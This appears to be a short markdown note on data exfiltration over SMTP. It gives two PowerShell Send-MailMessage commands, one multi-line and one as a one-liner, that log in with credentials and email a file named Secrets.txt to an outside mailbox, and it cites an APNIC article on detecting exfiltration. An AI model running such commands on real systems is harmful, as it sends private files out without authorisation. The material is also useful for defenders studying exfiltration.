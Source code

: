 # SMTP

## 01 - PowerShell

### 1.1 - Send-MailMessage

```powershell
$username = 'bob@mail.ru'
$password = ConvertTo-SecureString -String "<password>" -AsPlainText -Force
$credentials = New-Object -TypeName  System.Management.Automation.PSCredential -ArgumentList $username, $password
Send-MailMessage -From 'Bob <bob.baronov@mail.ru>' -To 'Alice <alice@mail.ru>' -Subject 'From powershell' -Body 'See attachments.' -Attachments 'C:\Tools\files\Secrets.txt' -SmtpServer 'box.mail.ru' -Credential $credentials
```

A one-liner.

```powershell
$username = 'alice@mail.ru'; $password = ConvertTo-SecureString -String "<password>" -AsPlainText -Force; $credentials = New-Object -TypeName  System.Management.Automation.PSCredential -ArgumentList $username, $password;  Send-MailMessage -From 'bob <bob@mail.ru>' -To 'Alice  <alice@mail.ru>' -Subject 'From powershell' -Body 'See attachments.' -Attachments 'C:\Tools\files\Secrets.txt' -SmtpServer 'box.mail.ru' -Credential $credentials
```

---
## References

### APNIC

- [APNIC: How to Detect and Prevent Common Data Exfiltration Attacks](https://blog.apnic.net/2022/03/31/how-to-detect-and-prevent-common-data-exfiltration-attacks/)